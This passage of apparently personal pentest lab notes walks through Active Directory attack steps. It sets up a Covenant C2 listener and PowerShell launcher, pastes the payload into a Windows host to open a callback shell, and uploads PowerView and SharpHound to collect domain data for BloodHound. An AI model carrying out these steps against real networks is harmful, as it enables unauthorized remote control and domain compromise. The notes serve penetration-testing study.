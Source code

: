 - `neo4j console`
- Set up new `neo4j` *credentials*
	- http://localhost:7474/
![image](https://0xc0rvu5.github.io/docs/assets/images/20221127041033.png)
- Close the `neo4j` web browser window after changing the default password
- `bloodhound`
	- Drag and drop *.zip* file into `Bloodhound`
		- `20221127035950_BloodHound.zip`
- In `Bloodhound`
	- Go to the hamburger menu
		- Go to the bottom of the `Database Info` section
			- `Refresh Database Stats`
- Go to `Analysis` tab for guided information

### Abusing ACLs
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
```bash
- Open `Covenant`
	- Set up a listener in `Listeners` tab
		- Name: `HTTP Listener`
		- ConnectAddress: `your-ip-address`
		- `Create`
	- Set up a launcher in `Launchers`
		- `PowerShell`
			- Listener: `HTTP Listener`
			- DotNetVersion: `Net40`
				- For a short link: `Net35` **Net35 is manditory when using `msiexec` and fodhelper i.e. `helper.ps1`**
			- KillDate: `some date in future`
			- `Generate`
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20221125031343.png)
```
- Paste the generated payload into the Windows host `powershell.exe` window
```
- In `Grunt`:
	- `ChangeDirectory C:\Users\Public`
		- `Upload`
			- `powerview_dev.ps1`
- On Windows host
	- `cd C:\Users\Public`
		- Invoke `powerview_dev`
			- `. .\powerview_dev.ps1`
	- Download and execute `Sharphound`
		- Refer too:
			- [[Execute SharpHound on Windows Host With Covenant]]
```bash
- Open a grunt with `Covenant`
	- [[Covenant Quick Shell on Windows Host]]
- In `Grunt`:
	- `ChangeDirectory C:\Users\Public`
		- `Upload`
			- `sharphound.exe`
				- Ensure the version of `Sharphound` is the same as the bloodhound install
	- `shell sharphound.exe -c all`
```
![image](https://0xc0rvu5.github.io/docs/assets/images/20221127040208.png)
```
- `download 20221127035950_BloodHound.zip`
	- Make sure to **click** the download on `Covenant` to download 
```
	- Check user groups for `s.chisholm`